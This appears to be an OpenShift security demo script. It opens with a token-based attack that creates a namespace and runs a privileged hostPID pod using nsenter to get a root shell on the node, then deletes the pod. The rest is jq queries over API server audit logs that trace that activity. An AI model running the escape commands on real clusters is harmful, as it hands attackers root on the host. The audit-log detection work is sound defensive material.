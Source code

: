 Logs https://docs.openshift.com/container-platform/4.13/security/audit-log-view.html

## Exploit VISA - get token - create a namespace and run  r00t container

oc --token $(cat token) create namespace my-newns
oc --token $(cat token) -n my-newns create deployment mastercard-v2 --image alpine --port=8080 -- sleep 50000

oc --token $(cat token) run -n my-newns r00t --restart=Never --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"securityContext":{"privileged":true}}]}}'

oc --token $(cat token) -n my-newns rsh r00t

oc --token $(cat token) -n my-newns delete pod r00t

=======
oc adm node-logs master-0 --path=kube-apiserver/audit.log > audit.log

## get all actions on my-newns namespace
jq -r 'select(.requestURI | contains("/api/v1/namespaces/my-newns")) | select(.user.username != "system:apiserver") | [.requestReceivedTimestamp, .user.username, .verb, .objectRef.namespace, .objectRef.resource, .objectRef.subresource, .objectRef.name, .userAgent, .responseStatus.code, .annotations."authorization.k8s.io/decision", .annotations."authorization.k8s.io/reason"] | @csv' audit.log

## Get everything that the system:serviceaccount:payments:visa-processor has beeing done to the cluster
jq -r 'select(.user.username =="system:serviceaccount:payments:visa-processor") | [.requestReceivedTimestamp, .user.username, .verb, .objectRef.namespace, .objectRef.resource, .objectRef.subresource, .objectRef.name, .userAgent, .responseStatus.code, .annotations."authorization.k8s.io/decision", .annotations."authorization.k8s.io/reason"] | @csv' audit.log

=======

## Get the list of masters
masters=$(oc get nodes -l node-role.kubernetes.io/master -o custom-columns=POD:.metadata.name --no-headers)

## get all actions on payments namespace
echo '"Timestamp","Username","Verb","Namespace","Resource","Name","UserAgent","Authorization Decision","Authorization Reason"' > report.csv
for master in $(echo $masters)
do
  oc adm node-logs  ${masters} --path=kube-apiserver/audit.log | jq -r 'select(.requestURI | contains("/api/v1/namespaces/payments")) | select(.user.username != "system:apiserver") | [.requestReceivedTimestamp, .user.username, .verb, .objectRef.namespace, .objectRef.resource, .objectRef.name, .userAgent, .responseStatus.code, .annotations."authorization.k8s.io/decision", .annotations."authorization.k8s.io/reason"] | @csv' >> report.csv
done

## Get everything that the system:serviceaccount:payments:visa-processor has beeing done to the cluster
echo '"Timestamp","Username","Verb","Namespace","Resource","Name","UserAgent","Authorization Decision","Authorization Reason"' > report.csv
for master in $(echo $masters)
do
  oc adm node-logs  ${master} --path=kube-apiserver/audit.log | jq -r 'select(.user.username =="system:serviceaccount:payments:visa-processor") | [.requestReceivedTimestamp, .user.username, .verb, .objectRef.namespace, .objectRef.resource, .objectRef.name, .userAgent, .responseStatus.code, .annotations."authorization.k8s.io/decision", .annotations."authorization.k8s.io/reason"] | @csv' >> report.csv
done

## Get all the info for the pod r00t
echo '"Timestamp","Username","Verb","Namespace","Resource","Name","UserAgent","Authorization Decision","Authorization Reason"' > report.csv
for master in $(echo $masters)
do
  oc adm node-logs  ${master} --path=kube-apiserver/audit.log | jq -r 'select(.objectRef.name == "r00t") | [.requestReceivedTimestamp, .user.username, .verb, .objectRef.namespace, .objectRef.resource, .objectRef.name, .userAgent, .responseStatus.code, .annotations."authorization.k8s.io/decision", .annotations."authorization.k8s.io/reason"] | @csv' >> report.csv
done

## pods created in the payment namespaces
for master in $(echo $masters)
do
oc adm node-logs  ${master} --path=kube-apiserver/audit.log  | jq -r 'select(.objectRef.resource == "pods" and .verb == "create" and .objectRef.namespace == "payments" and (.user.groups | index("system:serviceaccounts:kube-system") | not) and .user.username != "system:kube-scheduler") | [.requestReceivedTimestamp, .user.username, .verb, .objectRef.namespace, .objectRef.name] | @csv'
done

## deployments created in the payment namespaces
for master in $(echo $masters)
do
oc adm node-logs  ${master} --path=kube-apiserver/audit.log  | jq -r 'select(.objectRef.resource == "deployments" and .verb == "create" and .objectRef.namespace == "payments") | [.requestReceivedTimestamp, .user.username, .verb, .objectRef.namespace, .objectRef.name] | @csv'
done

# Get the secureContext of all pods running or runned on payment namespaces
for master in $(echo $masters)
do
oc adm node-logs  ${master} --path=kube-apiserver/audit.log  | jq -r 'select(.objectRef.resource == "pods" and .objectRef.namespace == "payments" and (.objectRef.name | length > 0) and (.annotations."securitycontextconstraints.admission.openshift.io/chosen" | length > 0)) | [.requestReceivedTimestamp, .user.username, .objectRef.namespace, .objectRef.name, .annotations."securitycontextconstraints.admission.openshift.io/chosen"] | @csv'
done

## Identify exec into a pod
for master in $(echo $masters)
do
oc adm node-logs  ${master} --path=kube-apiserver/audit.log | jq -r 'select(.objectRef.subresource == "exec") | [.requestReceivedTimestamp, .user.username, .objectRef.namespace, .objectRef.name ] | @csv'
done
